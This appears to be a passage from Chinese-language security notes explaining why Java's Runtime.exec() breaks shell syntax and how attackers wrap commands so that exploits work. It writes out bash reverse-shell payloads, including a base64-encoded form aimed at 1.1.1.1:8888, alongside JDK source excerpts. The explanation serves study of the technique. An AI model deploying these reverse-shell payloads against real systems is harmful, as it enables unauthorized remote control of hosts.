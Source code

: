 - 为什么不能直接`Runtime.getRuntime().exec("bash -i >& /dev/tcp/ip/port 0>&1");`

    - 上面说了java并没有给我们一个shell环境。管道符、输入输出重定向都没法用。
    - 例如，`ls > dir_listing`在shell中执行应该将当前目录的列表输出到名为的文件中`dir_listing`。但是在`exec()`函数的上下文中，该命令将被解释为获取`>`和`dir_listing`目录的列表。
    - 其他时候，其中包含空格的参数会被StringTokenizer类破坏，该类将空格分割为命令字符串。那样的东西`ls "My Directory"`会被解释为`ls '"My' 'Directory"'`。

- 我们都知道`bash -c "cmd string"`,就是使用shell去运行`cmd string`字符串

    - 所以我们写payload：`new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/ip/port 0>&1"}`
        - 但是后面参数`"bash -i >& /dev/tcp/ip/port 0>&1"`空格又会被切分。

-  一般常用的是使用base64来编码我们输入的命令

        原始 bash -c "bash -i >& /dev/tcp/1.1.1.1/8888 0>&1"
        
        编码后 bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzg4ODggMD4mMSA=}|{base64,-d}|{bash,-i}
        直接在linux shell下运行失败，猜测-c后面的参数被java做了一些处理

分析

- 在`java.lang.Runtime()`中存在多个重载的`exec()`方法，如下所示:

  - ```java
    public Process exec(String command)
    public Process exec(String command, String[] envp)
    public Process exec(String command, String[] envp, File dir)
    public Process exec(String cmdarray[])
    public Process exec(String[] cmdarray, String[] envp)
    public Process exec(String[] cmdarray, String[] envp, File dir)
    ```

- 除了常见的`exec(String command)`和`exec(String cmdarray[])`，其他`exec()`都增加了`envp`和`File`这些限制。虽然如此，但是最终都是调用相同的方法，本质没有却区别。这些函数存在的意义可以简要地参考[调用java.lang.Runtime.exec的正确姿势](https://blog.csdn.net/timo1160139211/article/details/75006938)

- 分析`exec(String cmdarray[])`和`exec(String command)`:

  - ```java
    // exec(String command) 函数
    public Process exec(String command) throws IOException {
        return exec(command, null, null);
    }
    ...
    public Process exec(String command, String[] envp, File dir)
        throws IOException {
        if (command.length() == 0)
            throw new IllegalArgumentException("Empty command");
     
        StringTokenizer st = new StringTokenizer(command);
        String[] cmdarray = new String[st.countTokens()];
        for (int i = 0; st.hasMoreTokens(); i++)
            cmdarray[i] = st.nextToken();
        return exec(cmdarray, envp, dir);//////////////////////////////////////////////
    }
    ...
        